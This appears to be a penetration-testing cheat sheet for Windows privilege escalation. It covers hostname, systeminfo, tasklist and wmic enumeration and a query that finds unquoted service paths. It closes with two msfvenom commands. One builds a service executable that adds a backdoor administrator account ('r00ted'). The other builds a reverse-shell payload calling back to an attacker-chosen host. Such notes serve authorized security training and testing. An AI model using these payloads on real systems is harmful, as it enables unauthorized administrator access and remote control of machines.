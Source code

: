 We can discover the hostname with the aptly-named hostname command, which is typically installed on both Windows and Linux.

A machine’s hostname can often provide clues about its functional roles. More often than not, the hostnames will include identifiable abbreviations such as web for a web server, db for a database server, dc for a domain controller, etc.

```
hostname
```

### Operating System Version and Architecture 

On the Windows operating system, we can gather specific operating system and architecture information with the systeminfo utility. 

We can also use findstr along with a few useful flags to filter the output. Specifically, we can match patterns at the beginning of a line with /B and specify a particular search string with /C:

```
systeminfo
```

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

### Running Processes and Service

List the running processes on Windows with the tasklist command. The /SVC flag will return processes that are mapped to a specific Windows service. 

```
tasklist /SVC
```

### Identify vulnerable unquoted service path executables

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Got a result? quick priv esc if you have permissions to restart box:
```
msfvenom -a x86 -p windows/exec CMD="cmd.exe /c net user r00ted rooted /add && net localgroup Administrators r00ted /add" -f exe -o ServiceNameHere.exe
```

or

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP ADDRESS> LPORT=<PORT> -f exe > reverse.exe 
```

### Running services

```
wmic service get name,displayname,pathname,startmode
```
